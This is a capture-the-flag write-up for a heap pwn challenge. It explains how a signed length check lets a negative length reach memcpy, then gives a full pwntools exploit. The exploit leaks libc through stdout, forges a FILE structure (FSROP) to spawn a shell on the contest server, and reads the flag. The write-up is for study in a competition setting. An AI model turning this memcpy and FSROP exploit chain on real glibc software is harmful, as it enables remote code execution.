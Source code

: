 # Intro
This challenge is simple but verbose. The vulnerability is a heap-based `https://github.com/n132/RetroverFlow`, which was found by (@Swing, @leommxj, and @n132) about one year ago. We didn't make it public until I found the challenge author also found that.

The challenge was solved by @zolutal and @n132 in the game.

# Vulnerability
The challenge is actually not such hard if we understand the memcpy behaviors while giving a corrupted third parameter.

The figure in this repo shows the behavior correct (not for avx512, which the challenge used):


- The block size diffs for different CPU feat, I take avx for an example:
- Forward Copying: 0x80 bytes
- Backwards Copying: 0x20 bytes
- Backwards Copying: 0x80 bytes
- Return without crashing

By controling the third parameter of memcpy (`len`), we are able to write arbitrary addresses.

# Challenge 

The challenge only provides two simple primitives
- Allocation from malloc, size<=0x100  (usage limit: 8 times)
- Vulnerable memcpy

The vulnerability comes from a signed value comparison:
```c
printf("len: ");
__isoc99_scanf("%ld", &n);
if ( n <= size_arrary[dst] && n <= size_arrary[src] )// n is a signed int_64
  memcpy(ptr_arrary[dst], ptr_arrary[src], n);
else
  printf("[!] invalid copy size\n");
```


# Soulution 



The first problem is leaking. We have no leaking for this challenge so we have to build a leaking privilege. 
We chose to do `IO_FILE` leaking after partially writing an coppied address on `tcache_entry`. The copied address comes from the House-of-orange free. (we corrupted the top-chunk size and used scanf to allocate a big chunk which gonna free the top chunk).

Then we performed FSROP to get the shell.


# Exp

Author: @zolutal


Success Rate: 1/(1<<12)

```py
from pwn import *
context.arch='amd64'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
#p=process('./copy_patched')
ru         = lambda a:     p.readuntil(a)
r         = lambda n:        p.read(n)
sla     = lambda a,b:     p.sendlineafter(a,b)
sa         = lambda a,b:     p.sendafter(a,b)
sl        = lambda a:     p.sendline(a)
s         = lambda a:     p.send(a)
def cmd(c):
    sla(b"> ",str(c).encode())
def add(size,c=b'\n'):
    cmd(0)
    sla(b": ",str(size).encode())
    if size!=0:
        p.send(c)
def dup(dst,src,l):
    cmd(1)
    sla(b": ",str(dst).encode())
    sla(b": ",str(src).encode())
    sla(b": ",str(l).encode())


attempt_no = 0
while True:
    context.log_level='info'
    attempt_no += 1
    print("Attempt:", attempt_no)

    #with process("./copy_patched") as p:
    with remote('bounty-board.chal.pwni.ng', 1337) as p:
    #with remote('localhost', 1337) as p:
        add(0x100,(b'\1'*0x78+p64(0xbe0)).ljust(0xcc,b'\1').ljust(0x100, b'\0'))#0
        add(0x77)#1
        dup(1,0,-0x100)

        cmd('0'*0x1000)

        #sla(b": ",str(0x10).encode())#2
        #p.send(b'\0'*0x8+p64(0x7ffff7e045c0))
        sla(b": ",str(0xa).encode())#2
        p.send(b'\0'*0x8+p16(0x45c0))

        pay = [2]*0x100
# for x in range(0x80):
#     if x in [72,73]:
#         pay [x]= 1
        payload = b''
        for x in range(0x100):
            payload += p8(pay[x]%0x100)
        add(0x100,payload)#3

        add(0xa,b'\1'*8+p16(0x45c0))#4
        add(0x80)#5

        dup(0,2,-0x8)

        dup(0,3,-0x160)

        try:

            #context.log_level='debug'
            add(0xe7,p64(0x1802)+b'\0'*0x18+b'\n')#5
            leak = p.recvuntil(b"[[ Menu ]]")[6:-13]
        except:
            print("retrying...")
            continue

        print(hexdump(leak))

        try:
            libc_base = u64(leak[0x45f0:0x45f8]) - 0x204644
            print(f"LIBC BASE: {libc_base:#x}")
        except:
            print("retrying from later...")
            continue

        #pause()

        dup(0,3,-0x120)

# STDOUT + 0
# flags
        payload = p32(0xdeadbee0) + b";sh\0"
#payload += b"; sh\0\0\0\0"
        payload += p64(0)
# read_end
        payload += p64((libc_base + 0x7ffff7e045c0 - 0x00007ffff7c00000) - 0x68 + 0x18)
# read_base
        payload += p64((libc_base + 0x7ffff7c58750 - 0x00007ffff7c00000))
        payload = payload.ljust(48, b'\0')
        payload += p64((libc_base + 0x7ffff7e045c0 - 0x00007ffff7c00000) - 0x68 + 0x28)
        payload = payload.ljust(104, b'\0')
        payload += p64(libc_base + 0x7ffff7c58750 - 0x00007ffff7c00000)
# ... + 136
        payload = payload.ljust(136-8, b'\0')
        payload += p64(libc_base + 0x7ffff7e045c0 - 0x00007ffff7c00000)
# lock
        payload += p64(libc_base + 0x7ffff7e045c0 - 0x00007ffff7c00000)
# ... + 160
        payload = payload.ljust(160, b'\0')
# wide_data
        payload += p64((libc_base + 0x7ffff7e045c0 - 0x00007ffff7c00000) - 0xe0 + 0x80)
# ... + 216
        payload = payload.ljust(216, b'\0')
# vtable
        payload += p64((libc_base + 0x7ffff7e02228 - 0x00007ffff7c00000) - 0x20)
# ... + 224

        print(hexdump(payload))

        #gdb.attach(p,'bof 0x146F')


        payload += p64(libc_base + 0x00007ffff7e044e0-0x00007ffff7c00000)
        payload += p64(libc_base + 0x00007ffff7e045c0-0x00007ffff7c00000)
        payload += p64(libc_base + 0x00007ffff7e038e0-0x00007ffff7c00000)
        payload += p64(libc_base + 0x00007ffff7ffd000-0x00007ffff7c00000)

        add(0x100, payload)

        dup(6,7,-0x100)

        sl(b'cat /flag')


        p.interactive()

```

